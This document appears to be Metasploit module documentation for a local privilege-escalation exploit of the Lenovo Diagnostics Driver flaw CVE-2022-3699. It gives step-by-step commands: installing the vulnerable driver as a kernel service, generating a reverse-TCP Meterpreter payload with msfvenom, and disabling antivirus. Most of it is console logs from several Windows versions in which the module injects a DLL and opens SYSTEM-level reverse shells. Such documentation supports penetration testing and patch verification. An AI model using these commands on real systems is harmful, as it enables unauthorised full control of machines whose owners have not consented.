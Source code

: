## Vulnerable Application

### Description
Incorrect access control for the Lenovo Diagnostics Driver allows a low-privileged user the ability to issue device 
IOCTLs to perform arbitrary physical/virtual memory read/write.

### Setup

A copy of the vulnerable Lenovo Diagnostics Driver can be downloaded from the github repo that hosts the original PoC
that this module uses: https://github[.]com/alfarom256/CVE-2022-3699/raw/main/LenovoDiagnosticsDriver.sys

To create a service that runs the vulnerable Lenovo driver run the following command:
`c:\Windows\System32> sc.exe create LenovoDiagnosticsDriver type= kernel start= auto binPath= "c:\Windows\System32\drivers\LenovoDiagnosticsDriver.sys" DisplayName=LenovoDiagnosticsDriver`

## Verification Steps

1. Create a shell for an initial foothold:
   `./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.123.1 LPORT=4444 -f exe > shell.exe`
1. Disable Real-time Virus Protection on the Windows 11 test target.
1. Drag shell.exe onto the Windows 11 test target
1. Start msfconsole
1. Do: `use multi/handler`
1. set LHOST and LPORT
1. Launch `shell.exe` on the test target and receive a shell
1. Do `use windows/local/cve_2022_3699_lenovo_diagnostics_driver`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a Meterpreter session as the `NT AUTHORITY\SYSTEM` user.

## Scenarios
All of the following scenarios have a vulnerable version of LenovoDiagnosticsDriver.sys in use.
### Windows 11 21H2 (Build 22000)
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run LHOST=192.168.123.1 LPORT=4444 payload=windows/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Sending stage (200774 bytes) to 192.168.123.212
[*] Meterpreter session 17 opened (192.168.123.1:4444 -> 192.168.123.212:49692) at 2022-12-12 12:34:15 -0500

meterpreter > bg
[*] Backgrounding session 17...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=17 LHOST=192.168.123.1 LPORT=4445

[*] Started reverse TCP handler on 192.168.123.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching msiexec to host the DLL...
[+] Process 4292 launched.
[*] Reflectively injecting the DLL into 4292...
[*] Sending stage (200774 bytes) to 192.168.123.212
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 18 opened (192.168.123.1:4445 -> 192.168.123.212:49696) at 2022-12-12 12:41:32 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFTESTING
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 22H2 (Build 19045)
```
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 8 opened (172.16.199.1:4444 -> 172.16.199.133:50093) at 2023-01-18 01:20:16 -0500

meterpreter > bg
[*] Backgrounding session 8...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=8 LHOST=172.16.199.1 LPORT=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 432 launched.
[*] Reflectively injecting the DLL into 432...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.133
[*] Meterpreter session 9 opened (172.16.199.1:4445 -> 172.16.199.133:50095) at 2023-01-18 01:20:33 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1809 (Build 17763)
```
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp LHOST=172.16.199.1 LPORT=4444

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.134:51415) at 2023-01-18 11:39:11 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 3004 launched.
[*] Reflectively injecting the DLL into 3004...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 4 opened (172.16.199.1:4445 -> 172.16.199.134:49708) at 2023-01-18 11:50:37 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FONAECR
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2022 (Build 20348)
```
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=7 lport=4445 lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 7028 launched.
[*] Reflectively injecting the DLL into 7028...
[*] Sending stage (200774 bytes) to 172.16.199.132
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 8 opened (172.16.199.1:4445 -> 172.16.199.132:50962) at 2023-01-18 23:49:51 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows Server 2019 (Build 17763)
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run payload=windows/x64/meterpreter/reverse_tcp lhost=172.16.199.1

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.235:49729) at 2023-01-18 22:08:05 -0500

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/cve_2022_3699_lenovo_diagnostics_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_3699_lenovo_diagnostics_driver) > run session=1 lport=4445 lhost=172.16.199.1
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4445
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.

[*] Launching netsh to host the DLL...
[+] Process 64 launched.
[*] Reflectively injecting the DLL into 64...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.235
[*] Meterpreter session 2 opened (172.16.199.1:4445 -> 172.16.199.235:56717) at 2023-01-18 22:15:46 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-FDV8QFUMFP7
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EXAMPLE
Logged On Users : 8
Meterpreter     : x64/windows
```
